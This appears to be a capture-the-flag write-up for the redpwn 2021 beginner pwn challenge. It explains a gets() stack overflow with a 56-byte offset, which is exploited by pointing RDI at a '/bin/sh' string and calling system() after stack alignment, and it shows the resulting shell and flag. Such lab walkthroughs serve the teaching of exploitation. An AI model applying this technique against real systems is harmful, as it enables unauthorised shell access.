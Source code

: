 # beginner-generic-pwn-number-0

Main function contains `char heartfelt_message[32];` and the message we enter is stored to that variable with `gets()`

By looking through the code we can see that the file contains `system`-function and `/bin/sh` string.

## Exploitation
With GDB we find the offset to access the stack
```bash
[+] Searching 'haaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaana'
[+] Found at offset 56 (big-endian search)
```

Then we just find `/bin/sh`-string

```
[+] Searching '/bin/sh' in memory
[+] In '/mnt/x/ctf/redpwn2021/pwn/beginner0/beginner-generic-pwn-number-0'(0x402000-0x403000), permission=r--
  0x4021e8 - 0x4021ef  →   "/bin/sh"
[+] In '/mnt/x/ctf/redpwn2021/pwn/beginner0/beginner-generic-pwn-number-0'(0x403000-0x404000), permission=r--
  0x4031e8 - 0x4031ef  →   "/bin/sh"
[+] In '/usr/lib/x86_64-linux-gnu/libc-2.31.so'(0x7ffff7f70000-0x7ffff7fba000), permission=r--
  0x7ffff7f8a152 - 0x7ffff7f8a159  →   "/bin/sh"
```

There is `/bin/sh` in 0x4031e8

To exploit this we just enter junk of 56 bytes and then set RDI to `/bin/sh` and then execute `system()`

Exploit works perfect locally but when doing it in the server, it fails. I then just aligned the stack and got the shell

```
$ cat flag.txt
flag{im-feeling-a-lot-better-but-rob-still-doesnt-pay-me}
```

### Flag
flag{im-feeling-a-lot-better-but-rob-still-doesnt-pay-me}
